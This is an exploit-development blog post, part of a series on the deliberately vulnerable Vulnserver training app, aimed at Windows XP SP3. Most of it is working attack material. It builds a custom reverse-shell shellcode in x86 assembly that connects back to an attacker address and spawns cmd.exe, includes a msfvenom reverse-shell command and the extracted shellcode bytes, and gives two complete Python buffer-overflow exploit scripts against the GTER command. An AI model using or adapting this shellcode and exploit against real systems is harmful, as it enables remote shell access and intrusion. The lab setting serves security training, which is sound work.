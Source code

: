 :slug: vulnserver-gter-no-egghunter/
:date: 2020-06-11
:category: attacks
:subtitle: Every byte counts
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Florian Klauer on Unsplash
:description: In the previous post, we successfully exploited GTER command of Vulnserver using a technique called "Egghunting". It was needed to use that approach because we had a reduced space to work. In this post we will see an alternative way of exploiting this command.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/mk7D-4UCfmg

= GTER exploit by reusing sockets

This is the third article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In our link:../vulnserver-gter/[previous post], we successfully exploited
the `GTER` command using a technique called `Egghunting` or `Egghunter`.

Using an egghunter was required because we had a reduced buffer to fit a
shellcode, as generated by `msfvenom` and other tools.

In this post, we will use a manually carved shellcode that will harness
instructions that are already loaded on `Vulnserver`, allowing us to
reduce the final length of our payload.

== Reverse shellcode X-ray

A reverse shellcode is basically a series of Windows API function calls,
arranged in a delicate order to make a victim machine connects back to the
attacker machine, issuing a Windows shell which is commonly an instance
of `cmd.exe`.

The order of execution of a fully crafted shellcode is the following:

. Call `WSAStartup()` to load the needed `WinSock` DLLs. Use a call to
`LoadLibraryA` underneath.
. Call `socket()` or `WSASocketA()` to bind a new socket handle.
. Call `connect()` or `WSAConnect()` to establish a connection to the
attacker machine.
. Call `CreateProcessA()` which calls `cmd.exe` and where the `STDIN`, `STDOUT`,
and `STDERR` are redirected to the previously generated socket handle.

However, if we are exploiting a TCP/IP server like `Vulnserver`, chances are
that the 'WinSock' DLL library is already loaded and initialized, so we can
skip the first point on our custom shellcode.

As a reference, let's create a reverse shellcode using `msfvenom`:

.msfvenom
[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=4444 EXITFUNC=thread -f raw -o /dev/null -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: /dev/null
----

This shellcode is 351 bytes long. And, if you remember on our link:../vulnserver-gter/[previous post],
we only had around 144 bytes to play.

The whole idea of reusing instructions is to minimize the resultant shellcode.

To do that, we need to know what functions need to be called, with what
parameters, and translate that to Assembler language to then convert it to
our shellcode, having in mind to avoid null bytes that will led to become
our shellcode unusable. It sounds harder than it really is.

With that in mind, let's look at the signatures of the needed functions:

=== WSASocketA()

.WSASocketA() signature
[source,cpp]
----
SOCKET WSAAPI WSASocketA(
  int                 af,
  int                 type,
  int                 protocol,
  LPWSAPROTOCOL_INFOA lpProtocolInfo,
  GROUP               g,
  DWORD               dwFlags
);
----

If we are going to write this in assembler, we must remind that in the
x86 architecture, the functions are called in a very specific way:

. The parameters are pushed to the stack on reverse order
. Then we call the required function
. That function will store the returned value on `EAX`

For example, the structure for calling `WSASocketA` function is as follows:

. Push `dwFlags` parameter to the stack
. Push `g` parameter to the stack
. Push `lpProtocolInfo` parameter to the stack
. Push `protocol` parameter to the stack
. Push `type` parameter to the stack
. Push `af` parameter to the stack
. Call `WSASocketA()`
. Retrieve the return value of `WSASocketA()` from `EAX` which is the
resulting socket handle

We also need to know the exact address of the `WSASocketA()` on the system.
Normally, those function addresses won't change much on a specific versions
of Windows, but will likely change over different updates, so keep that
in mind when creating custom shellcodes.

For retrieving the addresss of functions on the current OS,
you can use the link:http://www.vividmachines.com/shellcode/arwin.c[arwin]
tool:

.arwin finding WSASocketA()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin ws2_32 WSASocketA
arwin - win32 address resolution program - by steve hanna - v.01
WSASocketA is located at 0x71ab8b6a in ws2_32
----

Ok, with all the required information, we can proceed to write some Assembler.
We need to get a socket handle that can be used by a TCP connection.
With that in mind, we can write the call to `WSASocketA()`:

.WSASocketA() in ASM
[source,asm]
----
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI
----

Nice, we stored the socket handle in the ESI register that we will
need in the forthcoming functions.

=== connect()

The `connect()` call will actually create the connection back to the
attacker, using the socket handle created by `WSASocketA` that we stored en ESI:

.connect() signature
[source,cpp]
----
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
----

The `sockaddr` parameter is in turn:

[source,cpp]
----
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
----

Get the address of `connect()`:

.arwin finding connect()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin ws2_32 connect
arwin - win32 address resolution program - by steve hanna - v.01
connect is located at 0x71ab4a07 in ws2_32
----

Now that we know the structure of the `connect()` function call, and the
address of the function, we can write it in Assembler:

.connect() in assembler
[source,asm]
----
push 0x1400a8c0         ; Push attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

Note that the attacker IP address parameter contains a null byte which
will stop the injection of the payload. To overcome that, we can add a
static value to that address, substract it again, and push the result.
This will be the final `connect()` payload:


.connect() in assembler
[source,asm]
----
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

=== CreateProcessA()

Now comes the final function `CreateProcessA()` which is responsible for
creating an instance of the `cmd.exe` command. We also need to point the
STDIN, STDOUT and STDERR descriptors to our socket handle to make the
resultant shell interactive for us.

.CreateProcessA() signature
[source,cpp]
----
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
----

We need to fill the `_STARTUPINFOA` structure. Luckily for us, most
of the parameters are NULL:

[source,cpp]
----
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
----

And the `_PROCESS_INFORMATION` is even easier as all the fields can be NULL:

[source,cpp]
----
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
----

Get the address of `CreateProcessA()`:

.arwin finding CreateProcessA()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin kernel32 CreateProcessA
arwin - win32 address resolution program - by steve hanna - v.01
CreateProcessA is located at 0x7c80236b in kernel32
----

In assembler, the call to `CreateProcessA()` will look like this:

.CreateProcessA() in assembler
[source,asm]
----
mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	    ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Address of CreateProcessA()
call ebx                ; Call CreateProcessA() on WinXPSP3
----

== Putting it all together

Our final shellcode will be this:

.shellcode.asm
[source,asm]
----
; WSASocketA()
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; Call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI

; connect()
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()

; CreateProcessA()

mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	    ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Call CreateProcessA()
call ebx
----

We can compile this using `nasm`:

.nasm compilation
[source,bash]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the resulting shellcode with:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x6a\x8b\xab\x71
\xff\xd3\x96\xbb\x15\xfe\x55\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c
\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb\x07\x4a\xab\x71\xff
\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52
\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2
\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53
\x4b\x53\x53\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3
----

As you can see, the resulting shellcode is only 126 bytes long and will
nicely fit on our buffer without the need to use egghunters.

== Update our exploit

Now that we have our manually created shellcode, we can update our
link:../vulnserver-gter/[previous exploit].

We will remove the egghunter and the previous shellcode and will include our
custom shellcode. Let's look how it looks now:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    CUSTOM_SHELL +
    b'A' * (147 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

It looks simpler! Now, run it to see what happens:

image::take1.gif[Take 1]

Uhmmm, we got the reverse connection but no shell!

Let's see what is going on

image::take2.gif[Take 1]

As we can see, there's several things happening:

. Our buffer was correctly delivered
. The `JMP ESP` instruction was successfully triggered
. The jump backwards ocurred
. And we landed at the start of our custom shellcode

However, if you look carefully a this image:

image::esp1.png[ESP]

We can see that the ESP register is only 24 bytes below the end of our
custom shellcode. That means that with every `PUSH` performed on our
custom shellcode, that pointer will be going to be closer to our custom
shellcode and will start *overwriting* it. That's not good news.

This graph will illustrate the issue:

image::stackgrowth.png[ESP]

As the execution flows towards a higher memory address, the stack grows
backwards and will eventually overwrite our shellcode.

However, if you look at the image again, you can see that the `EAX` register
points to the `GTER /.:/` string which is above our shellcode.

All that's left to do is align the stack to point to that location and it's
done easily with two instructions:

.Align stack
[source,asm]
----
PUSH EAX
POP ESP
----

The first instruction will push the current value of `EAX` to the stack
and the second will pop back that value to the `ESP` register, moving the
stack pointer above our shellcode, protecting it from being overwritten.

We can use `nasm_shell.rb` from Metasploit to get the opcodes of that
instructions

.nasm_shell
[source,bash]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit
$ ./nasm_shell.rb
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
----

Ok, now we can add that instructions to our exploit and see what happens:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    # Align stack to avoid overwrite our shellcode
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    CUSTOM_SHELL +
    b'A' * (147 - 2 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And execute the exploit again...

image::success.gif[Shell]

Whooo! We got our shell again!

== Conclusion

This time I wanted to show that there are always ways to overcome
harsh exploitation environments, just by trying harder.


== References

. link:https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_shell.asm[Metasploit block_shell]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa[WSASocketA function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect[connect function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa[CreateProccessA function]
